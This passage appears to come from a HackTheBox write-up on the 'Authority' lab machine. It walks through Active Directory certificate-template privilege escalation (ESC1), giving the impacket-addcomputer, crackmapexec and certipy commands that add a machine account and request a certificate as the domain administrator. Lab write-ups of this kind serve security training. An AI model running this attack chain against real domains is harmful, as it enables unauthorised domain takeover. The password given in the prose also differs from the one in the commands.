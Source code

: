 From the [hactrickz](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#misconfigured-certificate-templates-esc1) website I got to know that, the "ENROLLEE_SUPPLIES_SUBJECT" flag allows the certificate requester to define the subject details, which are typically used for identification purposes, such as the common name, organization, and other attributes.

This indicates we can add a new computer account in Active Directory using the credentials of a domain user. In this case, I will use the "[impacket-addcomputer](https://tools.thehacker.recipes/impacket/examples/addcomputer.py)" tool.

```bash
impacket-addcomputer 'authority.htb/svc_ldap:<password_here>' -method LDAPS -computer-name 'FXI' -computer-pass 'Password1@'
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/dd5dde22-1951-48dd-81a6-cf4c30cd07e5)

After creating the new machine account we can verify if it's active in AD or not using CrackMapExec.

```bash
crackmapexec smb 10.10.11.222 -u "FXI$" -p 'Password1@' -d auhtority.htb
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/70d6afd7-69ed-4a8b-a389-656f5d3a25bb)

Now using Certipy, I will generate a certificate using the computer account "FXI$" with the password "Passw0rd1!" and the template "CorpVPN," which will allow us to escalate privileges.

Although, the machine account is created & active in the AD, when I was using certipy to generate the certificate from the vulnerable template & I was constantly getting 2 errors:

```
- Unknown DCE RPC fault status code: 00000721
- The NETBIOS connection with the remote host timed out.
```

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/c12fdaa6-90cf-4ffc-8393-f7bbfeb7168d)
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/25b1f41b-f848-4370-b0ee-2d55feccea66)

To resolve this issue, I added the DC IP address to the DNS configuration IPv4 address.

![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/8357c9f6-7b51-41fd-b7e4-02e9589be44f)
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/102eaa6a-dbb1-44c0-9294-24609ecfc9dd)

After adding the IP, I restarted the network manager.

```bash
sudo systemctl restart NetworkManager
```

After doing all these changes, I tried again to generate the certificate & this time I got the certificate.

```bash
certipy req -u 'FXI$' -p 'Password1@' -dc-ip 10.10.11.222 -ca AUTHORITY-CA -template 'CorpVPN' -upn 'administrator@authority.htb'
```
![image](https://github.com/F41zK4r1m/HackTheBox/assets/87700008/664177ed-09ca-48cf-9030-e425e1e3bf8d)
